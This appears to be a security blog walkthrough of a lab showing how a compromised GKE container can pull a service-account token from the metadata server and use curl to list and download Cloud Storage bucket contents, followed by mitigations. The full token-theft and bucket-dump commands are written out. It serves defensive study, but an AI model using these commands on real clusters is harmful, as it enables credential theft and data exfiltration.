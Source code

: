 # Your GKE deployment and metadata - buckets

How hard is it to dump data from Google Cloud Project storage, if it's running a vulnerable container image? Very easy! Read on for a walk through.

If you've read Gitlab's excellent report on "Plundering Google Cloud"[[1]](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
you may be wondering, does it apply to Kubernetes and GKE? After all, the article seems to focus on compute engine VMs. GKE is a totally different beast right? Also it mentions early on about being able to read bucket contents from compute engine VM. But we are not just giving the attackers the VM/credentials, not deploying privileged images and keep our GKE deployment up to date.

### Lab setup
To simulate a compromised container I deployed [openSSH-server](https://github.com/linuxserver/docker-openssh-server) on a GKE cluster
and exposed it to the internet so I can access it. I configured a user "toto", with sudo privileges (although I won't be using them yet).
There are no intentional misconfigurations or out of date software[2]*

![lab image](https://eqqn.github.io/images/doc2.png)


### Discovery and metadata
Taking a page from the pentest workflows, we query the metadata server.

`curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"`

This gives a lot of information and is a lot to proccess. 

To narrow it down, we want to look at the access scopes available to our instance.

`curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google' `

![Access scopes](https://eqqn.github.io/images/gke_access_scopes.png)

IF we have devstorage.read permissions it means we can read storage on our project.

Now since our storage is not public ( otherwise we wouldn't be doing this ), we need to authenticate ourselves against the google storage APIs.
Thats where metadata service steps in, providing us a JWToken that allows us to call google APIs on behalf of the instance. 

`curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"`

To discover the names of the storage objects, we can query the google storage API with the token we procured. We will need the project name we found in metadata dump.

`curl -H "Authorization: Bearer <<TOKEN>>" "https://storage.googleapis.com/storage/v1/b?project=<<PROJECT_NAME>>"`

![Bucket Data](https://eqqn.github.io/images/bucket_data.png)

One of the objects is the bucket I created `****test`

If we query the object, it will reveal the files inside it :

`curl -H "Authorization: Bearer <<TOKEN>" "https://storage.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o" `

We see the file "bucketfile.txt", so lets grab it using curl:

`curl -X GET -H "Authorization: Bearer <<TOKEN>>" -o "bucketfile.txt" "https://www.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o/bucketfile.txt?alt=media"`

![Bucket Contents](https://eqqn.github.io/images/bucket_data_contents.png)  ( the file contents is "my secret bucket data" string) 

### Summary

Provided there is a vulnerable container in a deployment, you can dump all the bucket data in the project.

No container escapes, privilege escalation involved. It does need at least a backdoor, RCE, or SSRF class vulnerability to get the auth token.

Also there is no restrictions on callers origin when calling storage endpoint - with the instance token you can call storage from anywhere.
So you can make a nice script to dump all buckets in the project recursively.

You don't need access to *gcloud*, *gsutil* or other CLI utilities on the container - once you *curl* the token, you can continue the work on your machine.
This is useful when you have read-only filesystems, no write access , etc.

### Mitigations (?)
Partial mitigation exists, like fine-grained access rights on bucket ( are you using them?). You can also restrict the access rights for the 
node pool, by adding a service account to it with a different set of permissions. [[3]](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata)

Workload identity is another candidate [[4]](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity) and requires extensive setup.

Google is also beta-testing "Auto-pilot clusters" where they take over the heavy lifting in terms of hardening. 

So the last few mitigations might be a necessary evil, if you don't want to leak all your secrets thanks to a single access token. I have yet to test how well they work.

References and comments: 
[1] https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

[2] It's synthetic, but you don't want to deploy actually vulnerable applications on your cloud :) Yes, it's easier to just 
SSH via CLoudShell to the container, but you lose benefit of testing low privilege user and ingress/egress network connections

[3] https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata

[4] https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity

